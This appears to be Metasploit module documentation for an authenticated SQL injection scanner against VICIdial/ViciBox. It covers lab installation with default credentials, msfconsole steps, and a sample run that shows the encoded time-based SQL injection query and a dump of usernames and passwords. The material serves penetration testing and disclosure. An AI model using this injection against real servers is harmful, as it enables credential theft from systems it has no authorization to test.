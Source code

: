 This module exploits several authenticated SQL Inject vulnerabilities in VICIdial 2.14b0.5 prior to
svn/trunk revision 3555 (VICIBox 10.0.0, prior to January 20 is vulnerable)

## Vulnerable Application

1. Install the following OpenSUSE 10 ISO [ViciBox_v9.x86_64-9.0.3.iso](http://download.vicidial.com/iso/vicibox/server/ViciBox_v9.x86_64-9.0.3.iso):
    1. Change the default password
    1. Set Timezone, Keyboard Layout and Language
    1. Network settings should autoconfigure (Tested on VMware Fusion). Network settings can be configured with the 
        command `yast lan` if necessary
1. Run `vicibox-express` to initiate the ViciDial Express Installation, everything can be kept as default
1. Navigate to `http://<ip-address>/` 
    1. Click `Administration` and login with default credentials username: `6666`, password: `1234`
    1. Once logged in, Click "Finish setup". Everything can be kept as default. 
1. The complete list of setup instructions can be found by following this [link](http://download.vicidial.com/iso/vicibox/server/ViciBox_v9-install.pdf)
    

## Verification Steps

1. Start msfconsole
1. Do: ```use auxiliary/scanner/http/vicidial_multiple_sqli```
1. Do: ```set username <username>```
1. Do: ```set password <password>```
1. Do ```show actions```
   1. Select from the list or keep the default
1. Do: ```run```
1. The module will exploit the selected SQL injection and return the extracted usernames and passwords

## Scenarios

ViciBox_v9.x86_64-9.0.3 using the List Users - modify_email_accounts method:
  ```
msf6 use auxiliary/scanner/http/vicidial_multiple_sqli
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - modify_email_accounts method
action => List Users - modify_email_accounts method
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(TXMlUAF) from (select cast(concat_ws(';',ifnull(user,''),ifnull(pass,'')) as binary) TXMlUAF from vicidial_users limit 3) jUFFwQn)
[*] {SQLi} Encoded to (select group_concat(TXMlUAF) from (select cast(concat_ws(0x3b,ifnull(user,repeat(0x87,0)),ifnull(pass,repeat(0x52,0))) as binary) TXMlUAF from vicidial_users limit 3) jUFFwQn)
[*] {SQLi} Time-based injection: expecting output of length 46
[!] No active DB -- Credential data will not be saved!
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
